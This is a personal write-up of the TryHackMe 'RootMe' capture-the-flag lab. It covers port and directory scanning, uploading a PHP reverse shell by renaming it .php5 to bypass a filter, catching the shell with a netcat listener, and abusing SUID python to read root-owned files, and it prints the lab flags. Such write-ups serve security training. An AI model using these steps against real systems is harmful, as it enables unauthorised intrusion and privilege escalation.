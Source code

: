 # RootMe Notes

Great writeup: https://beginninghacking.net/2020/09/09/try-hack-me-rootme/

1. Scan ports with nmap: "sudo nmap -sS -A <target ip address>"
- 2 ports open: 80 and 22, apache 2.4.29 and ssh respectively

2. Find hidden directories (GoBuster recommended, but I used dirb) (make sure to use http, as the webpage uses http): "dirb http://<target ip address>"
> -----------------
>DIRB v2.22    
>By The Dark Raver
>-----------------
>
>START_TIME: Sat Nov 20 04:24:35 2021
>URL_BASE: http://10.10.154.79/
>WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
>
>-----------------
>
>GENERATED WORDS: 4612                                                          
>
>---- Scanning URL: http://10.10.154.79/ ----
>==> DIRECTORY: http://10.10.154.79/css/                                                                                                                                                 
>+ http://10.10.154.79/index.php (CODE:200|SIZE:616)                                                                                                                                     
>==> DIRECTORY: http://10.10.154.79/js/                                                                                                                                                  
>==> DIRECTORY: http://10.10.154.79/panel/                                                                                                                                               
>+ http://10.10.154.79/server-status (CODE:403|SIZE:277)                                                                                                                                 
>==> DIRECTORY: http://10.10.154.79/uploads/                                                                                                                                             
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/css/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/js/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/panel/ ----
>+ http://10.10.154.79/panel/index.php (CODE:200|SIZE:732)                                                                                                                               
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/uploads/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                               
>-----------------
>END_TIME: Sat Nov 20 04:24:47 2021
>DOWNLOADED: 9224 - FOUND: 3
- Hidden directory is '/panel/'

3. We can upload a payload and get a reverse shell. Download the file that's included with this writeup, extract the file, and change the port and ip to your machine's ip address and a port that's not being used.

4. If we save this as a .php file and try to upload it, we find that we're allowed to upload .php files. There are several ways of bypassing this, but the easiest way is to just change the file extension so that it'll get accepted into the server and so that it'll run when we try to run it. For example, payload.jpg won't work because the .jpg won't run. So we bypass it by simple changing the extension to .php5, which is another version of php that is not blocked by the server. After uploading, go to "<target ip address>/uploads" - which we found earlier with dirb - and make sure that the file has been uploaded

5. Now we set up nc to listen to the port we programmed the script to connect to: "nc -nlvp <port>"

6. Finally, we run the script on the web server with curl: "curl <target ip address>/uploads/<script name>", and we should now have access to the server through netcat

7. We're given the name of the file that contains the flag "user.txt", so we simple use the find command: "find / -type f -name user.txt" and we see that the file is at /var/www/user.txt and when we cat it we find that the flag is THM{y0u_g0t_a_sh3ll}

8. Now we need to escalate our privileges to root. We're asked to search for files with the suid permission set - which lets any user execute the file with the permissions of the owner of the file - and find any files that are supicious. To do this we use find again: "find / -perm /4000 2> /dev/null" (we use "2> /dev/null" to get rid of any errors, such as permission errors for files we're not able to access)
>/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/usr/lib/snapd/snap-confine \
>/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic \
>/usr/lib/eject/dmcrypt-get-device \
>/usr/lib/openssh/ssh-keysign \
>/usr/lib/policykit-1/polkit-agent-helper-1 \
>/usr/bin/traceroute6.iputils \
>/usr/bin/newuidmap \
>/usr/bin/newgidmap \
>/usr/bin/chsh \
>/usr/bin/python \
>/usr/bin/at \
>/usr/bin/chfn \
>/usr/bin/gpasswd \
>/usr/bin/sudo \
>/usr/bin/newgrp \
>/usr/bin/passwd \
>/usr/bin/pkexec \
>/snap/core/8268/bin/mount \
>/snap/core/8268/bin/ping \
>/snap/core/8268/bin/ping6 \
>/snap/core/8268/bin/su \
>/snap/core/8268/bin/umount \
>/snap/core/8268/usr/bin/chfn \
>/snap/core/8268/usr/bin/chsh \
>/snap/core/8268/usr/bin/gpasswd \
>/snap/core/8268/usr/bin/newgrp \
>/snap/core/8268/usr/bin/passwd \
>/snap/core/8268/usr/bin/sudo \
>/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/snap/core/8268/usr/lib/openssh/ssh-keysign \
>/snap/core/8268/usr/lib/snapd/snap-confine \
>/snap/core/8268/usr/sbin/pppd \
>/snap/core/9665/bin/mount \
>/snap/core/9665/bin/ping \
>/snap/core/9665/bin/ping6 \
>/snap/core/9665/bin/su \
>/snap/core/9665/bin/umount \
>/snap/core/9665/usr/bin/chfn \
>/snap/core/9665/usr/bin/chsh \
>/snap/core/9665/usr/bin/gpasswd \
>/snap/core/9665/usr/bin/newgrp \
>/snap/core/9665/usr/bin/passwd \
>/snap/core/9665/usr/bin/sudo \
>/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/snap/core/9665/usr/lib/openssh/ssh-keysign \
>/snap/core/9665/usr/lib/snapd/snap-confine \
>/snap/core/9665/usr/sbin/pppd \
>/bin/mount \
>/bin/su \
>/bin/fusermount \
>/bin/ping \
>/bin/umount

9. Looking through the results, we see nothing suspicious until we see python. Python's an interpreter for the python programming language, and setting SUID on it makes no sense because there's no reason to run it as root; it'll produce the same output no matter who runs it. We check if that's the binary that the challenge is looking for, and it is. "/usr/bin/python"

10. Now we need to write some python code and run it with /usr/bin/python to let us view the contents of the /root directory (it's given that the last flag is called root.txt, so we'll assume that it's located in /root)

11. I tried writing the code inside the shell we got from the reverse shell, but python and vim were acting weird, so I instead wrote the code inside the attacker machine, uploaded it to the server just like we did with the reverse php file, and used "find / -type d -name ```*uploads*``` 2> /dev/null" to find where the files we uploaded were located. I needed to find the location because I couldn't just execute the python file with curl like we did with the php payload. I found that the files were in /var/www/html/uploads

12. After this, I wrote a basic python script to print out the contents or /root
>#!/usr/bin/python \
>import os
>
>print(os.listdir('/root'))

13. I then uploaded that to the server and used "/usr/bin/python /var/www/html/uploads/<filename>", and I see that root.txt is indeed in /root

14. Finally, to print out the contents of root.txt, I wrote this script
>#!/usr/bin/python \
>import os
>
>file = open('/root/root.txt', 'r') \
>print(file.read())

The last flag is THM{pr1v1l3g3_3sc4l4t10n}
